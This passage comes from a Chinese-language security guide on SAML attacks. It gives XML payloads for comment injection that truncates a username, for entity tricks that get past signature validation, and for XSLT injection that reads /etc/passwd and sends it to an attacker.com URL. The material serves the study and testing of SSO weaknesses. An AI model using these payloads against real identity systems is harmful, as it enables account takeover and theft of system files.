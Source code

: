 研究人员注意到，如果攻击者在用户名字段内插入注释，以破坏用户名的方式，攻击者可能会获得合法用户账户的访问权限。

```xml
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!--XMLCOMMENT-->.evil.com</NameID>
```

其中`user@user.com`是用户名的第一部分，`.evil.com`是第二部分。

### XML外部实体

另一种利用方法是使用`XML实体`来绕过签名验证，因为内容在XML解析期间不会改变。

在以下示例中：

- `&s;` 将解析为字符串 `"s"`
- `&f1;` 将解析为字符串 `"f1"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```

SAML响应被服务提供者接受。由于漏洞，服务提供者应用程序报告"taf"作为"uid"属性的值。

### 可扩展样式表语言转换

可以通过使用`transform`元素来执行XSLT。

![http://sso-attacks.org/images/4/49/XSLT1.jpg](http://sso-attacks.org/images/4/49/XSLT1.jpg)    
图片来源于 [http://sso-attacks.org/XSLT_Attack](http://sso-attacks.org/XSLT_Attack)    

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl"select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
```